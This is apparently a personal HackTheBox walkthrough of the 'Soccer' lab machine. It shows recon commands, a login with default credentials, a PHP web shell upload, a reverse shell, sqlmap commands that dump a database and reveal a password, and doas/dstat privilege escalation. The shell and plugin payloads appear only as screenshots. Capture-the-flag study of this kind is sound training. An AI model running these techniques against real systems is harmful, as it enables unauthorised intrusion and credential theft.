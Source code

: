 ### NMAP

```
sudo nmap -sC -sV -oN soccer-nmap 10.10.11.194
```

![[HackTheBox/Linux/attachments/Pasted image 20250504212941.png]]
- 22, 80, 9091

Add `soccer.htb` to `/etc/hosts`

Navigate to website 

![[HackTheBox/Linux/attachments/Pasted image 20250504213210.png]]

### Gobuster 

```
gobuster dir -u http://soccer.htb/ -w /usr/share/Seclists/Discovery/Web-Content/raft-small-words.txt
```

![[HackTheBox/Linux/attachments/Pasted image 20250504213629.png]]

Some results
![[HackTheBox/Linux/attachments/Pasted image 20250504213739.png]]
- /tiny

Taking a look at soccer[.]htb/tiny and we get a login page
![[HackTheBox/Linux/attachments/Pasted image 20250504213901.png]]

Googling "H3K Tiny File Manager GitHub" to find source code 

We find an exploitdb poc giving default creds of `admin:admin@123`

Entering these default creds and we get logged in

![[HackTheBox/Linux/attachments/Pasted image 20250504214212.png]]

There is an uploads file option 

![[HackTheBox/Linux/attachments/Pasted image 20250504214259.png]]

Let's upload a shell.php file 

![[HackTheBox/Linux/attachments/Pasted image 20250504214351.png]]

It uploads

![[HackTheBox/Linux/attachments/Pasted image 20250504214429.png]]

Navigate to /uploads/shell.php and provide 'whoami' command and we have code execution

![[HackTheBox/Linux/attachments/Pasted image 20250504214535.png]]

Let's get a reverse shell using Burp repeater 

Burp reverse shell request
![[HackTheBox/Linux/attachments/Pasted image 20250504214653.png]]

Set up nc listener on port 9001

Catch the shell 
![[HackTheBox/Linux/attachments/Pasted image 20250504214757.png]]

Get interactive shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```

```
Ctrl + Z
```

```
stty raw -echo; fg
```

Let's see what is on port 9091 

```
ss -lntp
```

![[HackTheBox/Linux/attachments/Pasted image 20250504215121.png]]

Checking out the nginx sites enabled 

```
ls /etc/nginx/sites-enabled
```

We see `soc-player.htb`

![[HackTheBox/Linux/attachments/Pasted image 20250504215438.png]]

Let's add `soc-player.soccer.htb` to `/etc/hosts`

Navigate to this site 

![[HackTheBox/Linux/attachments/Pasted image 20250504215611.png]]

This site also has a login page 
![[HackTheBox/Linux/attachments/Pasted image 20250504215654.png]]

Let's register as a new user on the site and login 

![[HackTheBox/Linux/attachments/Pasted image 20250504215745.png]]

Let's test out some Boolean SQLi payloads 


![[HackTheBox/Linux/attachments/Pasted image 20250504215845.png]]
- successful query means probable vulnerability to boolean sqli

Intercept this request in Burp 

![[HackTheBox/Linux/attachments/Pasted image 20250504220055.png]]
- it's a web socket

Go to proxy settings bc this is a web socket and ensure these boxes are checked 

![[HackTheBox/Linux/attachments/Pasted image 20250504220204.png]]

![[HackTheBox/Linux/attachments/Pasted image 20250504220302.png]]

Copy this request to file "injection.req"

### SQLMap

Use websocket url to construct sqlmap

![[HackTheBox/Linux/attachments/Pasted image 20250504220535.png]]

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch
```

![[HackTheBox/Linux/attachments/Pasted image 20250504220828.png]]

SQLmap is saying the parameter isn't injectable :/

![[HackTheBox/Linux/attachments/Pasted image 20250504220941.png]]

Refining sqlmap query 

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch
```

![[HackTheBox/Linux/attachments/Pasted image 20250504221200.png]]

Result: we do have a boolean-based blind sqlmap
![[HackTheBox/Linux/attachments/Pasted image 20250504221252.png]]

Now re-run sqlmap query with --dbs to get a list of the databases

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch --dbs --threads 10
```

![[HackTheBox/Linux/attachments/Pasted image 20250504221356.png]]

We got a database name: soccer_db

![[HackTheBox/Linux/attachments/Pasted image 20250504221537.png]]

Now rerun sqlmap query with the database name and the --dump flag

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch --threads 10 -D soccer_db --dump
```

![[HackTheBox/Linux/attachments/Pasted image 20250504221714.png]]

Result: we get creds!!
![[HackTheBox/Linux/attachments/Pasted image 20250504221841.png]]
PlayerOftheMatch2022
### SSH in with found credentials

```
ssh player@10.10.11.194
```

![[HackTheBox/Linux/attachments/Pasted image 20250504222023.png]]

### LinPEAS

Execute linpeas on the box

Interesting 
![[HackTheBox/Linux/attachments/Pasted image 20250504222700.png]]

How to find this manually 

```
find / -perm -4000 -ls 2>/dev/null
```

![[HackTheBox/Linux/attachments/Pasted image 20250504222842.png]]

DOAS executes commands as another user (like sudo)

Try to find a config for doas 

```
find / 2>/dev/null | grep doas
```

![[HackTheBox/Linux/attachments/Pasted image 20250504223038.png]]

Looking at one of these configs

![[HackTheBox/Linux/attachments/Pasted image 20250504223111.png]]

We discovered earlier that we have access to the dstat directory through being in the player group:

![[HackTheBox/Linux/attachments/Pasted image 20250504223225.png]]

Run `man dstat` to see what it is 

We see that /usr/share/dstat has a bunch of python files 

![[HackTheBox/Linux/attachments/Pasted image 20250504223432.png]]

Checking GTFO bins for dstat 

![[HackTheBox/Linux/attachments/Pasted image 20250504223550.png]]

Let's create our own dstat plugin for privilege escalation called pleasesubscribe

![[HackTheBox/Linux/attachments/Pasted image 20250504223655.png]]

Then execute the plugin 

```
doas /usr/bin/dstat --pleasesubscribe
```

![[HackTheBox/Linux/attachments/Pasted image 20250504223900.png]]

⭐ got root ⭐